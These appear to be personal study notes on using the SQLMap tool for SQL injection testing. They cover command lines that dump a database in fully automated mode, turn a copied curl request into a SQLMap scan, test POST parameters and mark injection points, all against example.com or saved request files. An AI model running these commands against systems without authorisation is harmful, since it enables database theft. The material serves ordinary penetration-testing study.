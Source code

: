 ```
$ sqlmap -r req.txt --batch --dump 
```
use `--batch` with command **mainly to make it **fully automated** — no interactive prompts.
use `--dump` to dump db

## effective cli input by copying http request as Curl

![](Pasted%20image%2020250613162532.png)

By pasting the clipboard content (`Ctrl-V`) into the command line, and changing the original command `curl` to `sqlmap`, we are able to use SQLMap with the identical `curl` command:

```shell-session
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

When providing data for testing to SQLMap, there has to be either a parameter value that could be assessed for SQLi vulnerability or specialized options/switches for automatic parameter finding (e.g. `--crawl`, `--forms` or `-g`).

## request methods

`POST` data, the `--data` flag can be used, as follows:

Running SQLMap on an HTTP Request

post request example:
```
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

if we have a clear indication that the parameter `uid` is prone to an SQLi vulnerability, we could narrow down the tests to only this parameter using `-p uid`. Otherwise, we could mark it inside the provided data with the usage of special marker `*` as follows:

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

# ## Full HTTP Requests or headers only
we need to specify a complex HTTP request with lots of different header values and an elongated POST body, we can use the `-r` flag with burp
![](Pasted%20image%2020250613163228.png)

```shell-session
sqlmap -r req.txt
```

Tip: similarly to the case with the '--data' option, within the saved request file, we can specify the parameter we want to inject in with an asterisk (*), such as '/?id=`*`

# custom request
